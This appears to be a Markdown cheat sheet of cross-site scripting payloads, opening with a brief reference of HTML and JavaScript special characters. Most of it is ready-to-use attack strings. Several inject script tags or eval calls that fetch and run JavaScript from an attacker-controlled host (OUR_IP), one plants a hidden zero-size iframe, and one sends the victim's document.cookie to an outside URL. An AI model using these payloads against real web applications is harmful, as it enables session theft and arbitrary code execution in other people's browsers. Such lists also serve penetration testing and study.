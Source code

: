 # Payloads

### references: special characters for HTML and javascript
```
< > - used to denote HTML elements 
' " - strings
{ } - javascript function declarations
;   - end of statement
```
---

### script: XSS with script tag 
```html
<script src=http://OUR_IP></script>

'><script src=http://OUR_IP></script>

"><script src=http://OUR_IP></script>

javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')

<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>

<script>$.getScript("http://OUR_IP")</script>
```
---

### script: XSS content injection with iframe
```html
<iframe src=<your_url> height="0" weight="0"></iframe>
```
---

### script: XSS cookie exfiltration with javascript
```html
<script>new Image().src="<your_url>/page.html?output="+document.cookie;</script>
```
---
